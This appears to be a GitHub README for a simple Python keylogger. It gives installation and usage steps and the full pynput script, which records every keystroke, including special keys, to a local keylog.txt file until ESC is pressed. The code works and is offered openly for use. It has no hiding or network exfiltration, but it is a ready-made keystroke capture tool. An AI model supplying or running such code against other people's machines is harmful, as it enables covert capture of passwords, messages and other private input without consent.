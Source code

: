 # Keylogger

A simple keylogger implemented using the `pynput` library to log keyboard events to a text file.

## Features

- Logs alphanumeric keys.
- Logs special keys like space, enter, and tab.
- Stops logging when the escape key (ESC) is pressed.

## Dependencies

- `pynput`

## Installation

1. Clone the repository:
    ```bash
    git clone <repository_url>
    ```
2. Navigate to the project directory:
    ```bash
    cd <repository_name>
    ```
3. Install the required Python packages:
    ```bash
    pip install pynput
    ```

## Usage

1. Run the script:
    ```bash
    python keylogger.py
    ```
2. The keylogger will start logging keys to `keylog.txt` in the same directory as the script.
3. Press the ESC key to stop the keylogger.

## File

- `keylogger.py`

```python
from pynput import keyboard

log_file = "keylog.txt"

def on_press(key):
    try:
        with open(log_file, "a") as f:
            f.write(str(key.char))
    except AttributeError:
        # Handle special keys like space, enter, etc.
        if key == keyboard.Key.space:
            with open(log_file, "a") as f:
                f.write(' ')
        elif key == keyboard.Key.enter:
            with open(log_file, "a") as f:
                f.write('\n')
        elif key == keyboard.Key.tab:
            with open(log_file, "a") as f:
                f.write('\t')
        else:
            with open(log_file, "a") as f:
                f.write(f'[{key.name}]')

def on_release(key):
    if key == keyboard.Key.esc:
        # Stop listener
        return False

# Collect events until released
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```
### License
This project is open source and available under the MIT License.

### Author
`Umar Farooq`
